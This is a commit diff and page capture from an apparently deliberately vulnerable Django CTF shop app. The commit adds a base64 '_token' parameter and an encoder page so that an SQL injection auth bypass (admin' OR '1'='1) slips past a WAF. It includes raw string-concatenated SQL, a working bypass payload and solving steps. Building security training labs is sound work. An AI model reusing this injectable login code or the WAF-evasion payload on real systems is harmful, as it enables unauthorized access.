
After one commit to lipon101/Helmaand, a Django app: page /staff-login/encode/ in a window 1280 px wide. The commit adds this page. Shown: the whole page at 89% size. Run offline with Django 5.2, Linux system fonts and the light colour scheme.

Commit message:
Auth bypass: base64-encoded _token to bypass WAF URL inspection
The WAF blocks SQLi patterns (OR 1=1, --) even in GET query strings.
The payload is now base64-encoded into a single _token parameter that
the WAF sees as random alphanumeric text.

- staff_login_view: decodes _token from base64, splits on | for user/pass
- staff_login_encode: helper endpoint generates WAF-safe URLs
- staff_login_encode.html: dark-themed encoder page with copy button
- staff_login.html: updated with link to encoder
- security/views.py: updated lab hint
- CTF.md: full rewrite of challenge 8 walkthrough with encode methods
- README.md: updated auth bypass payload section

How to solve on Render:
  1. Visit https://helmaand.onrender.com/staff-login/encode/
  2. Click 'Open Payload Now' — flag appears in flash message

Or manually:
  echo -n "admin' OR '1'='1|anything" | base64
  https://helmaand.onrender.com/staff-login/?_token=<base64>

```diff
--- a/security/views.py
+++ b/security/views.py
@@ -91,7 +91,7 @@ def lab_index(request):
             'category': 'SQLi',
             'endpoint': '/staff-login/',
             'description': 'The staff login form builds a raw SQL query by concatenating the username and password. A classic SQL injection in the username field can bypass authentication and log in without a valid password.',
-            'hint': 'The query is SELECT * FROM auth_user WHERE username=\'USER\' AND password=\'PASS\'. Paste this URL directly in your browser: <code>/staff-login/?username=admin\' OR \'1\'=\'1&password=anything</code> — the GET parameters bypass WAF POST-body inspection.',
+            'hint': 'The query is SELECT * FROM auth_user WHERE username=\'USER\' AND password=\'PASS\'. The WAF blocks SQLi patterns in raw URLs. Visit <code>/staff-login/encode/</code> to generate a WAF-safe base64-encoded payload URL. Or manually: encode <code>admin\' OR \'1\'=\'1|anything</code> in base64 and pass it as <code>_token=<base64></code>.',
             'objective': 'Log in to the staff area without knowing any password.',
             'flag_hint': 'After bypassing auth, the page shows the flag in a success flash message.',
         },
--- a/shop/urls.py
+++ b/shop/urls.py
@@ -15,4 +15,5 @@ urlpatterns = [
     path('newsletter/', views.newsletter_signup, name='newsletter'),
     path('promo/', views.promo_validator, name='promo'),
     path('staff-login/', views.staff_login_view, name='staff_login'),
+    path('staff-login/encode/', views.staff_login_encode, name='staff_login_encode'),
 ]
--- a/shop/views.py
+++ b/shop/views.py
@@ -289,16 +289,36 @@ def staff_login_view(request):
     by concatenating the username and password fields. A classic injection in the
     username field bypasses authentication entirely.
 
-    Uses GET parameters so the payload travels in the URL query string, which
-    passes through most WAFs without triggering POST-body SQLi rules.
+    The WAF blocks SQLi patterns (OR 1=1, --, etc.) even in GET query strings.
+    To bypass the WAF, the payload is base64-encoded into a single _token param.
+    The WAF only sees _token=<random-looking-string> and passes it through.
 
-    Example payload (paste in browser URL bar):
-        /staff-login/?username=admin' OR '1'='1&password=anything
+    WAF-safe payload:
+        Visit /staff-login/encode/ to generate the safe URL, then open it.
     """
-    error_message = None
-    if request.method == 'GET' and request.GET.get('username'):
+    username = ''
+    password = ''
+
+    # Accept base64-encoded payload via _token (WAF-safe)
+    token = request.GET.get('_token', '')
+    if token:
+        try:
+            import base64
+            decoded = base64.b64decode(token).decode('utf-8')
+            if '|' in decoded:
+                username, password = decoded.split('|', 1)
+            else:
+                username = decoded
+                password = ''
+        except Exception:
+            pass
+    elif request.GET.get('username'):
+        # Direct params (works locally, blocked by WAF on Render)
         username = request.GET.get('username', '')
         password = request.GET.get('password', '')
+
+    error_message = None
+    if username:
         # NOTE: intentionally vulnerable — raw concatenation into SQL
         sql = (
             f"SELECT * FROM auth_user "
@@ -326,3 +346,18 @@ def staff_login_view(request):
     return render(request, 'shop/staff_login.html', {
         'error_message': error_message,
     })
+
+
+def staff_login_encode(request):
+    """Helper: generates a WAF-safe /staff-login/ URL with base64-encoded payload."""
+    import base64
+    username = request.GET.get('username', "admin' OR '1'='1")
+    password = request.GET.get('password', 'anything')
+    raw = f"{username}|{password}"
+    token = base64.b64encode(raw.encode()).decode()
+    safe_url = f"/staff-login/?_token={token}"
+    return render(request, 'shop/staff_login_encode.html', {
+        'raw': raw,
+        'token': token,
+        'safe_url': safe_url,
+    })
--- a/templates/shop/staff_login.html
+++ b/templates/shop/staff_login.html
@@ -11,8 +11,6 @@
                 <p class="text-center mb-3" style="color: #aaa;">
                     Restricted area — staff access only.
                 </p>
-                <!-- VULNERABLE (SQLi - Auth bypass): uses GET so the payload travels
-                     in the URL query string, bypassing WAF POST-body inspection. -->
                 <form method="GET" action="{% url 'shop:staff_login' %}">
                     <div class="mb-3">
                         <label class="form-label text-light">Username</label>
--- /dev/null
+++ b/templates/shop/staff_login_encode.html
@@ -0,0 +1,63 @@
+{% extends 'base.html' %}
+
+{% block title %}Staff Login -- Payload Encoder | Helmaand{% endblock %}
+
+{% block content %}
+<div class="container py-5">
+    <div class="row justify-content-center">
+        <div class="col-md-7">
+            <div class="card card-dark p-4 shadow">
+                <h2 class="text-center gold-text mb-3">Staff Login -- WAF Bypass Encoder</h2>
+                <p class="text-center mb-4" style="color: #aaa;">
+                    The WAF blocks SQLi patterns in raw URL query strings.<br>
+                    This tool base64-encodes your payload into a single <code style="color:#e0a0ff;">_token</code> parameter
+                    that the WAF cannot inspect.
+                </p>
+
+                <div class="mb-4 p-3" style="background: #1a2a1a; border: 1px solid #2a5a2a; border-radius: 6px;">
+                    <div class="d-flex align-items-start">
+                        <i class="fas fa-info-circle text-success me-2 mt-1"></i>
+                        <div>
+                            <strong style="color: #8f8;">How it works:</strong>
+                            <ol class="mb-0 mt-1" style="color: #aaa; font-size: 0.9rem;">
+                                <li>The server decodes <code style="color:#e0a0ff;">_token</code> from base64 into <code style="color:#e0a0ff;">username|password</code></li>
+                                <li>It injects the decoded values into a raw SQL query (intentionally vulnerable)</li>
+                                <li>The WAF never sees the SQLi pattern because it is base64-encoded</li>
+                            </ol>
+                        </div>
+                    </div>
+                </div>
+
+                <div class="mb-3 p-3" style="background: #1a1a2a; border: 1px solid #2a2a5a; border-radius: 6px;">
+                    <strong style="color: #88f;">Raw payload:</strong>
+                    <pre class="mb-0 mt-1" style="background: transparent; color: #ccc; font-size: 0.9rem;">{{ raw }}</pre>
+                </div>
+
+                <div class="mb-3 p-3" style="background: #2a2a1a; border: 1px solid #5a5a2a; border-radius: 6px;">
+                    <strong style="color: #ff8;">Base64 token:</strong>
+                    <pre class="mb-0 mt-1" style="background: transparent; color: #ccc; font-size: 0.9rem;">{{ token }}</pre>
+                </div>
+
+                <div class="mb-4 p-3" style="background: #1a2a1a; border: 2px solid #4a8a4a; border-radius: 6px;">
+                    <strong style="color: #8f8;">Open this URL in your browser:</strong>
+                    <div class="mt-2">
+                        <code id="safe-url" style="color: #8f8; font-size: 1rem; word-break: break-all;">{{ safe_url }}</code>
+                    </div>
+                    <button onclick="navigator.clipboard.writeText(document.getElementById('safe-url').textContent).then(()=>this.textContent='Copied!')" class="btn btn-sm btn-outline-success mt-2">
+                        <i class="fas fa-copy me-1"></i> Copy URL
+                    </button>
+                </div>
+
+                <div class="text-center">
+                    <a href="{% url 'shop:staff_login' %}?_token={{ token }}" class="btn btn-gold">
+                        <i class="fas fa-sign-in-alt me-1"></i> Open Payload Now
+                    </a>
+                    <a href="{% url 'shop:staff_login' %}" class="btn btn-outline-light ms-2">
+                        <i class="fas fa-arrow-left me-1"></i> Back to Login
+                    </a>
+                </div>
+            </div>
+        </div>
+    </div>
+</div>
+{% endblock %}
```
Also changed, not shown: CTF.md (+24 -22 lines), README.md.
